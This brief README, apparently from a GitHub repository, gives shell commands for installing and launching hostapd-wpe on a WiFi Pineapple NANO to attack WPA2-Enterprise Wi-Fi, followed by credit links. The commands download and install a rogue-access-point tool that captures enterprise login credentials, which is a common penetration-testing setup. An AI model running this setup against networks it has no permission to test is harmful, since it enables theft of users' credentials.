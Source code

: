 # Hostapd-wpe on the Pineapple NANO for WPA2-Enterprise Attacks
ssh root@IP-OF-PINEAPPLE<br>
cd /tmp<br>
wget https://github.com/metalkey/pineapple-nano-hostapd-wpe/blob/master/hostapd-wpe_2014-06-03.1-1_ar71xx.ipk<br>
opkg install ./hostapd-wpe_2014-06-03.1-1_ar71xx.ipk<br>
cd<br>
hostapd-wpe pineapple-hostapd-wpe.conf<br>
<br>
# Creds
https://github.com/TarlogicSecurity/hostapd-wpe-openwrt/raw/master/packages/ar71xx/generic/hostapd-wpe_2014-06-03.1-1_ar71xx.ipk<br>
https://forums.hak5.org/index.php?/topic/38982-hostapd-wpe/<br>
